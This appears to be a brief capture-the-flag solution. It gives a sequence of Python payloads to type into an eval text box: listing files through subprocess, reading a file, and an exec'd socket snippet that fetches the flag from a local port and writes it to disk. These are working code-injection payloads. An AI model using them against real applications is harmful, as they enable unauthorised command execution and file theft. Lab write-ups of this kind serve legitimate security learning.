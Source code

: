 # Solution

Type this in eval textbox:

* \_\_import\_\_("subprocess").check_output(["ls"])  # find "interesting" file

* open("very_long_and_complex_file_name").read()  # read "interesting" file

* exec("""import socket as s;p=s.socket(s.AF_INET, s.SOCK_DGRAM);p.setsockopt(s.SOL_SOCKET, s.SO_REUSEADDR, 1);p.bind(("localhost", 0));p.sendto(b"", ("localhost", 31337));f=open("file_name", "wb");f.write((p.recvfrom(1024))[0]);f.close()""")  # write flag to "file_name"

* open("file_name").read()  # read flag from "file_name"
